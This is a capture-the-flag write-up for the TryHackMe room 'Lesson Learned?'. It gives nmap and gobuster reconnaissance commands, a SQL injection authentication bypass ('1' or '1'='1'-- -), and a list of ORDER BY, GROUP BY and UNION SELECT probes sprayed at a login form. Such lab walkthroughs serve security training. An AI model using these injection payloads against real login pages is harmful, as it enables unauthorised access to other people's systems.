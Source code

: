 # Lesson Learned?

**Room Link:** [https://tryhackme.com/room/lessonlearned](https://tryhackme.com/room/lessonlearned)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (10).png" alt=""><figcaption></figcaption></figure>





**Browser**

<figure><img src="../../.gitbook/assets/image (290).png" alt=""><figcaption></figcaption></figure>

```
Username: 1' or '1'='1'-- -
Password: 1' or '1'='1'-- -
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (12).png" alt=""><figcaption></figcaption></figure>

## Option #1&#x20;

Used this page to collect possible injections

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

**List**

```
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 4--+
1' GROUP BY 1--+
1' GROUP BY 2--+
1' GROUP BY 3--+
1' GROUP BY 4--+
1' UNION SELECT null-- -
1' UNION SELECT null,null-- -
1' UNION SELECT null,null,null-- -
```

<figure><img src="../../.gitbook/assets/image (291).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (292).png" alt=""><figcaption></figcaption></figure>



Add list above as payload in position 1 and 2

<figure><img src="../../.gitbook/assets/image (293).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (294).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (295).png" alt=""><figcaption></figcaption></figure>

**Browser**

```
Username: 1' UNION SELECT null-- -
Password: 1' GROUP BY 2--+
```



<figure><img src="../../.gitbook/assets/image (289).png" alt=""><figcaption></figcaption></figure>

